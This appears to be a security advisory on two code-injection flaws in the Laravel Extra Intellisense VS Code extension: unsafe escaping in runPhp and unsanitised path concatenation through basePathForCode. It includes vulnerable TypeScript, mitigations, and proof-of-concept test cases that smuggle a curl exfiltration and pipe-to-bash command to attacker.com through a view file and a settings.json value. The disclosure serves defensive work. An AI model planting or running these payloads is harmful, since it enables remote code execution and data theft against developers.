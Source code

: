 # Laravel Extra Intellisense Extension Security Vulnerabilities

## Vulnerability 1: Command Injection via Insufficient PHP Code Escaping

- **Vulnerability Name**: Command Injection via Insufficient PHP Code Escaping
- **Description**: The extension executes PHP code to extract Laravel project metadata using `cp.exec()`. The escaping mechanism in the `runPhp` function uses a simple regex replacement that is insufficient to handle all edge cases, especially when dealing with complex strings containing both double and single quotes. An attacker can craft a malicious repository with files containing specially crafted content that, when processed by the extension, generates PHP code that breaks out of the string context and executes arbitrary system commands.

  The vulnerability is present in the `runPhp` function in `helpers.ts`:
  ```typescript
  static runPhp(code: string, description: string|null = null) : Promise<string> {
      code = code.replace(/\"/g, "\\\"");
      if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
          code = code.replace(/\$/g, "\\$");
          code = code.replace(/\\\\'/g, '\\\\\\\\\'');
          code = code.replace(/\\\\"/g, '\\\\\\\\\"');
      }
      let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
      let command = commandTemplate.replace("{code}", code);
      // ...
      cp.exec(command, /* ... */);
  }
  ```

  The problem is that the escaping logic only replaces double quotes once and doesn't properly handle nested escape sequences. This can be exploited to break out of the PHP code context.

- **Impact**: An attacker can execute arbitrary system commands with the privileges of the VS Code user. This could lead to complete system compromise, including data exfiltration, installation of malware, or using the compromised system as a pivot point for further attacks.

- **Vulnerability Rank**: Critical

- **Currently Implemented Mitigations**: The extension attempts to escape quotes and dollar signs, but the implementation is insufficient. There's no comprehensive input validation or sanitization of the PHP code before execution.

- **Missing Mitigations**:
  - Proper escaping mechanism for PHP code that handles all edge cases
  - Use of a safer execution method instead of string concatenation
  - Implementation of a whitelist approach to only allow specific PHP operations

- **Preconditions**:
  - The victim must have the Laravel Extra Intellisense extension installed in VS Code
  - The victim must open a malicious Laravel repository in VS Code

- **Source Code Analysis**:
  1. When a user opens a Laravel project, the extension automatically analyzes various Laravel-specific files to provide autocomplete features
  2. For this analysis, it uses the `runLaravel` function which prepares PHP code and passes it to `runPhp`
  3. In `runPhp`, the PHP code is insufficiently escaped using simple regex replacements
  4. The escaped code is then injected into a command template (`php -r "{code}"` by default)
  5. This command is executed using Node.js `cp.exec()` which spawns a shell process
  6. If an attacker can craft PHP code that survives the escaping process, they can break out of the string context and inject additional commands that will be executed by the shell

  For example, an attacker could create a malicious file that when processed generates a string containing `\\"$(evil_command)\\"`. When this goes through the escaping logic, it might become `\\\"$(evil_command)\\\"` which, when interpreted by the shell, would execute `evil_command`.

- **Security Test Case**:
  1. Create a malicious Laravel repository with a view file containing:
     ```php
     <?php /*
     @extends("x\\"\\"); system('curl -s http://attacker.com/exfil?data=$(whoami) | bash'); //
     */ ?>
     ```
  2. When a victim opens this repository in VS Code with the Laravel Extra Intellisense extension
  3. The extension will attempt to parse this view file to provide autocomplete
  4. The malicious code will break out of the PHP string context and execute the system command
  5. The command will send the output of `whoami` to the attacker's server and execute any code returned

## Vulnerability 2: Code Injection via Path Manipulation

- **Vulnerability Name**: Code Injection via Path Manipulation
- **Description**: The extension directly concatenates file paths into PHP code strings without proper sanitization. In the `runLaravel` function, paths are directly inserted into PHP code:

  ```typescript
  var command =
    "define('LARAVEL_START', microtime(true));" +
    "require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';" +
    "$app = require_once '" + Helpers.projectPath("bootstrap/app.php", true) + "';" +
    // more code
  ```

  If an attacker can manipulate the path returned by `projectPath` (potentially by manipulating the `basePathForCode` configuration setting), they could inject PHP code by breaking out of the string literal with a single quote.

- **Impact**: An attacker can execute arbitrary PHP code within the context of the PHP interpreter running the Laravel application. This could lead to execution of system commands, file access, and potentially full system compromise.

- **Vulnerability Rank**: High

- **Currently Implemented Mitigations**: None. The paths are directly concatenated into the PHP code without any sanitization.

- **Missing Mitigations**:
  - Proper escaping of file paths before concatenation into PHP code
  - Use of prepared statements or parameter binding for PHP code execution
  - Validation of path inputs against a whitelist of allowed paths

- **Preconditions**:
  - The victim must have the Laravel Extra Intellisense extension installed in VS Code
  - The victim must open a malicious Laravel repository in VS Code
  - The victim must have set a custom `basePathForCode` configuration (which is common for Docker users as shown in the README)

- **Source Code Analysis**:
  1. The `projectPath` function in `helpers.ts` builds paths using the `basePathForCode` configuration if `forCode` is true
  2. This path is then directly concatenated into PHP code in the `runLaravel` function
  3. If `basePathForCode` contains characters that can break out of the string context (like a single quote), it would allow code injection
  4. When the manipulated PHP code is executed by the `runPhp` function, the injected code would run

  For example, if `basePathForCode` is set to something like `'); system('malicious command'); //`, the constructed PHP code would become:
  ```php
  require_once ''); system('malicious command'); //path/to/vendor/autoload.php';
  ```
  This would execute the malicious command.

- **Security Test Case**:
  1. Create a malicious Laravel repository with a `.vscode/settings.json` file containing:
     ```json
     {
       "LaravelExtraIntellisense.basePathForCode": "'); system('curl -s http://attacker.com/exfil?data=$(whoami)'); // "
     }
     ```
  2. When a victim opens this repository in VS Code with the Laravel Extra Intellisense extension
  3. The extension will use this manipulated path in the PHP code generation
  4. When executing PHP code to fetch Laravel metadata, the injected command will execute
  5. The system command sends system information to the attacker's server
